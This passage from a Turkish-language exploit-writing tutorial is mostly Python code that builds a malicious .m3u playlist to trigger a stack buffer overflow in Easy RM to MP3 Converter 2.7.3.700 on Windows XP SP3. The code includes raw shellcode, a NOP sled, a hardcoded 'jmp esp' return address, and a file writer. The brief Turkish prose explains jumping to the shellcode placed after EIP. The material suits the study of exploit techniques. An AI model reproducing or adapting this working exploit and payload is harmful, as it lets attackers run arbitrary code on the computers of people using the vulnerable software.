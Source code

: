 ```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

buffer = b"\x90"*40 + calc + b"\x90"*(26109-len(calc)-40)
```

Madem yazdığımız buffer EIP'den sonra bir yere kopyalanıyorsa o zaman bizde o alana sıçramaya çalışalım. Geriye doğru gidip shellcode'un başlangıç adresini bulmaktansa ilerlerde shellcode'un başına sıçramak daha kolay olacaktır.

Bunun için herzamanki gibi önüne biraz `NOP` atıyoruz ki işimizi sağlama almış olalım :D Daha sonra shellcode'umuzu yazdık ve devamınıda gene `NOP` karakterler ile doldurduk. Yani EIP ye kadar olan kısım bu şekilde olacak. Peki bizim için önemli olan `EIP` registerına ne yazacağız ? Yukarda yazmış olduğum `NOT`'u hatırlayacak olursak bir adet `jmp esp` işlemi yapan adrese ihityacım var. (Ki bunu daha önce bulmuştuk)

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

buffer = b"\x90"*40 + calc + b"\x90"*(26109-len(calc)-40)
eip = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pre_esp = b"JUNK"
jump_code = (
        # add esp,
        # add esp,
        # jmp esp
)

exploit = buffer + eip + pre_esp + jump_code

# File path
file = "EasyRMtoMP3Converter/custom_jumpcode.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```
